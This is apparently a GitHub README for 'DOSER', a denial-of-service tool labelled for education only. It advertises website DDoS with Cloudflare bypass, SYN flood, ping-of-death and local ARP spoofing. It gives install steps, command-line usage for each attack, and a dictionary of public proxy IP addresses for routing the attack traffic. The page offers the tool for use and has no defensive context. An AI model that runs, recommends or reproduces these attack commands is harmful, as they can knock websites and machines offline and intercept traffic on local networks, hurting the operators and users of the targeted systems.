 # DOSER
EDUCATION PURPOSE ONLY  !!!!!!!!!!!!!<br>
Doser is basically an Denial of Service attack that affects websites and local machines

  [+] DDOS Websites ,Detect And BYPASS CLOUDFLARE <br>
  [+] RUN SYN FLOOD AND PING OF DEATH ATTACK<br>
  [+] ARP Spoof Target in the local Network<br>
  
  # How to install and run
      
      * git clone https://github.com/bahaabdelwahed/DOSER/<br>
      * Install used library (pip3 install <library_name>)<br>
      * cd DOSER<br>
      * chmod +x doser.py<br>
  # USAGE : 
  
       python3 doser.py -u https://example.com <br>
       run this command against website doser tell you if the site use cloudflare and start attack with <br>
       
       python3  doser.py -syn 127.0.0.1 -p 21 <br>
       run syn flood attack against 127.0.0.1:21 this option use scapy to send multiple request in multiple thread<br>
       
       doser.py -pod 127.0.0.1 <br>
       Multiple request  against ICMP protocole<br>
       
       doser.py -arp <br>
       Run GUI console that ask for local ip adress to start arp spoof<br>
       
   
   
       WANT TO USE PROXY Make sure to update this :
       proxies ={
            'https': 'https://140.227.69.170:6000',
           'https': 'https://3.12.95.129:80',
           'https': 'https://167.99.174.59:80', 
           'https':'https://92.204.251.170:1080',
           'https':'https://186.225.45.13:80',
           'https':'https://140.82.5.38:80',
           'https':'https://188.126.90.10:8888',
           'https':'https://140.82.5.38:1080',
               }
       and to change proxies=False in ligne 71 to proxies=proxies

   
